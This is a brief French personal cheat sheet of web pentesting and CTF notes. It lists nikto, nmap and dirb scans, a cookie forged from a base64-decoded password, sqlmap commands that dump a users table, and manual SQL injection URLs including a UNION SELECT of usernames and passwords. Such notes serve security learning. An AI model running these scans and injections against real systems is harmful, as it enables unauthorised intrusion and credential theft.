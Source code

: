 
HTTP - Test connexion utilisation du debugguer pour voir les trames réseau. 
	Passer de GET à OPTION pour voir la réponse.

# Tool
nikto -h <URL>
nmap -p 1-65535 -sV -sS -T4 <IP>
dirb 
Encode / Decode : https://www.root-me.org/spip.php?page=outils&inc=code_decode&lang=en

# Neonazi à l'intérieur. 
Récupération page de login.php.old, mot de passe base64, décode sur base64decode.org
Modification requête POST : Cookie: galerie=root:YXplcnR5NjU0JiY=
Réponse dans "l'inspector" ...
	
# sqlmap	
sqlmap -u "<URL>"
sqlmap -r <BurpFile>
sqlmap -r <BurpFile> --tables
sqlmap -r <BurpFile> -T users --dump

Test SQL injection manual
http://mywebsite.php/login.php?id=1'
http://mywebsite.php/login.php?id='1
	Si la requête renvoi une erreur alors injectable
http://mywebsite.php/login.php?id=1 ORDER BY 15--
	Error out of range should be between 1 and xx
http://mywebsite.php/login.php?id=1 OR 1=1 UNION SELECT username, password, 3, from users

# gcc
apt-install libc6-dev-i386
